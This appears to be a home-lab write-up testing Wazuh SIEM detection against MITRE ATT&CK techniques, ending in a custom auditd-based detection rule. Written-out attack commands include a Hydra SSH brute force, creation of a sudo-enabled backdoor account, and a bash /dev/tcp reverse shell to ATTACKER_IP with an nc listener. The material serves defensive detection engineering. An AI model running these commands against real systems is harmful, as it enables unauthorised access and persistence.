

# Summary
A self-hosted SIEM lab where I deployed Wazuh in Docker, spun up a victim endpoint, and then ran MITRE ATT&CK techniques against it to test what the default ruleset actually detects and what it doesn't. Covers the log pipeline ingestion from the agent endpoints to the Wazuh Manager.

---

# Components


* Kali Linux VM (Attacker): Perform MITRE ATT&CK techniques (e.g., SSH brute force, privilege escalation).

* Ubuntu VM (Endpoint): Victim device
                                 
* Wazuh Agent: Installed on the endpoint, it ships logs via Port 1514/TCP.
                             
* Wazuh Server on Docker: Indexes and visualizes the data in the Dashboard via the web portal.


#  Prerequisites

## 1 - Docker Setup 
To install: https://docs.docker.com/engine/install/ubuntu/

## 2 - Wazuh installation via Docker
Instructions: https://documentation.wazuh.com/current/deployment-options/docker/wazuh-container.html
  * NOTE: Installation can be done as a single or multiple node stack, depending on your preference.

### Dashboard Monitoring

Open your browser and navigate to the Wazuh Web Console (`https://ip-of-SIEM-server`) and navigate to Threat Intelligence > Threat Hunting to see the security events.


### Detection results

#### * SSH Brute Force |  ATT&CK T1110.001 - Brute Force: Password Guessing

* **Victim:** account created with a weak password

```sudo useradd -m admin-prod && echo 'admin-prod:<weak-password>' | sudo chpasswd```

* **Attacker:** Used Hydra to perform brute force to log in.

```hydra -l amin-prod -P /usr/share/wordlists/rockyou.txt ssh://VICTIM_IP```

#### Results:

The first 3 attempts were logged, demonstrating the failed authentication. The last attempt by Hydra on the attacker's machine was successful in retrieving the weak password.


Each failed login was logged under rule 5760 (sshd: authentication failed). The brute-force correlation rule did not fire on this run; only 3 failures were recorded before Hydra found the password, below the default threshold of 8 failures in 120 seconds.


#### * Valid login after brute force |  ATT&CK T1078

Once logged in, the default rule 5715 was triggered once we were able to sign in from the attacker VM


#### * Create local user | ATT&CK T1136.001

To have persistent access to this server, we've created a local account:
```
sudo useradd -m -s /bin/bash backdoor1
echo 'backdoor:<weak-password>' | sudo chpasswd
sudo usermod -aG sudo backdoor1         
```
This was detected under default rule 5902.


#### * Sudo privilege escalation | ATT&CK T1548.003

To increase our privileges within our victim's system, we invoked `sudo` with `sudo -i ', which was also detected under rule ID 5402.


#### * Cron persistence | ATT&CK T1053.003

To further test our default detection capabilities, we ran a cron task to open a reverse-shell back to our attacker's VM. This was also covered by the default rule ID 2833.


#### Custom Rule

#### * Reverse Shell (bash /dev/tcp) | ATT&CK T1059.004 - Unix Shell

Unlike the techniques above, this one is not caught by the default ruleset, and closing that gap required building detection from scratch. This section documents the gap, the telemetry work, the custom rule, and the pipeline issues found along the way.

The attack

A bash reverse shell opens an interactive shell and redirects its I/O over a TCP socket back to the attacker, using bash's built-in /dev/tcp.

**Attacker (Kali) — listener:**

`nc -lvnp 4444`

**Victim (ubuntu-prod):**

`bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'`

This returned a root shell on the attacker's machine.

Show Image



Gap: the default ruleset is blind to it

With the reverse shell active and commands running as root, the Wazuh dashboard showed no actionable alert. Linux does not log outbound connection creation by default, so no event describing the reverse shell ever reached the SIEM for matching.


Root cause: this is a telemetry gap, not a missing-rule problem. Wazuh can only alert on what the OS logs, and  Linux doesn't generate an event for this. Detection, therefore, required adding telemetry that the default install lacks.

**Adding telemetry with auditd**

Installed auditd on the victim and added a rule to log process execution (execve), which captures the command line of the reverse-shell payload:
```
# /etc/audit/rules.d/reverse-shell.rules
-a always,exit -F arch=b64 -S execve -k proc_exec
sudo augenrules --load
sudo auditctl -l        # confirm the execve rule is loaded
```

With execve logging active, re-running the attack produced an audit record containing the payload:

`type=EXECVE argc=3 a0="/bin/bash" a1="-c" a2=62617368...2F6465762F7463702F...`

**NOTE:** a2 is hex-encoded (auditd encodes arguments containing spaces/special chars). Decoded, it is the /dev/tcp reverse-shell command.

**The custom rule** 
xml
```
<group name="local,audit,">
  <rule id="100100" level="12">
    <if_sid>80700</if_sid>
    <match type="pcre2">(?i)2f6465762f7463702f</match>
    <description>Reverse shell: bash /dev/tcp outbound connection (T1059.004)</description>
    <mitre>
      <id>T1059.004</id>
    </mitre>
  </rule>
</group>
```
Chains off rule 80700 (the auditd "messages grouped" rule that these events match by default at level 0).
Matches the hex signature of /dev/tcp/ against the full log — because (see lessons below) the decoder does not expose the argument holding the string as its own field.

Scope: This rule matches the bash /dev/tcp technique specifically. A reverse shell via nc, Python, or socat would not include this signature and would not trigger it. Real detections are technique-specific; this one covers the bash variant.

**Validation**

Tested the rule against the real audit line with wazuh-logtest — it matched rule 100100, level 12 (vs. level-0 80700 before). Then confirmed it fires live, end to end, with the attack flowing through the agent to the dashboard:


The rule fired reliably on every reverse-shell execution once the audit pipeline was in place.

#### Lessons learned: Pipeline issues

Getting from "rule written" to "alert firing live" surfaced three things default tutorials skip:

* Custom rule changes need a full container recreate, not just a restart. The wazuh-config-mount copies local_rules.xml into the manager only on fresh container start — `docker compose down && docker compose up -d`. A plain restart left the old rule loaded while the host file showed the new one, which silently defeated every test until caught.

* The auditd decoder doesn't expose every execve arg as a field. audit.execve.a0 and a1 decoded, but a2 (which held /dev/tcp) did not — so a rule matching audit.execve.a2 would never fire. Matched the hex signature in the full log instead.
  
* The Wazuh agent collects no auditd data by default. Even with auditd logging locally and a correct rule in the manager, nothing fired live until an explicit audit log source was added to the agent and it was restarted:
```
xml
   <localfile>
     <log_format>audit</log_format>
     <location>/var/log/audit/audit.log</location>
   </localfile>
```

Without this, audit events never leave the endpoint. A correct detection rule involves not only creating the detection rule itself but also ensuring that the endpoint agent collects the log and that the manager can receive it for indexing and dashboard display.


